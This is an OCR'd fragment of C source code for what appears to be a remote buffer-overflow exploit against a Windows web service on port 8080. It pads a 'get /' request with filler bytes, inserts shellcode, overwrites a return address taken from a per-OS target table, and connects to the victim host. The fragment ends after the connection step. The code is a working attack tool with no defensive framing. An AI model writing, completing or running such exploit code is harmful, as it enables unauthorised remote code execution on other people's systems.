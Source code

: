       for (i=0;i < 4;i++)
       fprintf(stdout,"%d\t\t\t%s\t\t0x%p\n",i,target[i].os,target[i].sh_addr);

      exit(0);
    }

    int main(int argc,char **argv)

    {


    char buffer[offset*2]="get /",*ptr,*address;
    int sd,oops,i,choise;
    struct  sockaddr_in  ooh;


    WSADATA wsadata;
    WSAStartup(0x101, &wsadata);

    if (argc < 2) usage(argv[0]);
    address=argv[1];
    choise=atoi(argv[2]);

    fprintf(stdout,"[+] Winsock Inalized\n");

     /* Lets start making a litle setup
        Change the port if you have to */

     ooh.sin_addr.s_addr = inet_addr(get_ip(address));
        ooh.sin_port        = htons(8080);
        ooh.sin_family      = AF_INET;


    fprintf(stdout,"[+] Trying to connect to %s:%d\n",address,8080);


    // ok ok here`s ur sock()
    sd = socket(AF_INET, SOCK_STREAM,IPPROTO_TCP);
     if (!sd<0) { fprintf(stderr,"[!] socket() failed.\n");exit (-1); }

     fprintf(stdout,"[+] socket inalized\n");


     /* initializing the expploiting buffer, read the file comments for the details */
    ptr=buffer+strlen(buffer);

    for (i=strlen(buffer);i < offset;i++) *ptr++=(char)0x2e;
    for (i=strlen(buffer);i < offset+6;i++) { *ptr++=(char)0xa; *ptr++=(char)0xd ;}

    memcpy(buffer+strlen(buffer),((char *)&shellcode),strlen(shellcode));
    memcpy(buffer+offset,((char *)&target[choise].sh_addr),3);


    fprintf(stdout,"[+] Overflowing string is Prepared\n");

     // Knock knock ... hi i want to hook up with you
     oops=connect(sd, (struct sockaddr *)&ooh, sizeof( ooh ));
      if(oops!=0) { fprintf(stderr,"[!] connect() failed.\n"); exit(-1); }

    // yep we are in :D
    fprintf(stdout,"[+] Connected.\n");
